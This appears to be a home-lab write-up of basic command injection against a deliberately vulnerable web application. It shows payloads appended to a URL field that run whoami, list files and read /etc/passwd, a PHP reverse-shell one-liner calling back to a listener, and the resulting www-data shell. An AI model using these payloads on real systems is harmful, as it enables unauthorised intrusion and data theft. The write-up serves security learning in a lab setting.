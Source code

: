 # Command Injection - Basics

- In the network analysis tab, I am proceeding to conduct command injection to assess the system's vulnerability.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/cd982e2e-b051-4333-8e9d-6046353d2bd7)

- By utilizing the command `https://<IP>; whoami;echo http/`, I successfully fetched the user information.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/a5f05fef-23a3-4aba-b031-94fe4f141834)

- By passing the payload `https://<IP>; ls -lah;asd`, I managed to retrieve the files present in the system.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/78f51f72-93a6-4d82-9e01-c61ea3cc351d)

- By utilizing the command `https://<IP>; cat /etc/passwd;asd` I successfully retrieved the user information.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/38d63085-e598-4ef8-8ece-321b48ec0e98)

- By employing the PHP reverse shell `https://<Target IP>; php -r '$sock=fsockopen("LHOST",4242);exec("/bin/sh -i <&3 >&3 2>&3");';asd`, I was able to prompt a reverse shell.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/3b86c2bd-8f91-4032-b2bd-de8e1e55ee19)

#### Shell:

```bash
└─$ rlwrap nc -nvlp 4242
listening on [any] 4242 ...
connect to [xxx.xxx.xxx.186] from (UNKNOWN) [xxx.xx.0.4] 59348
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
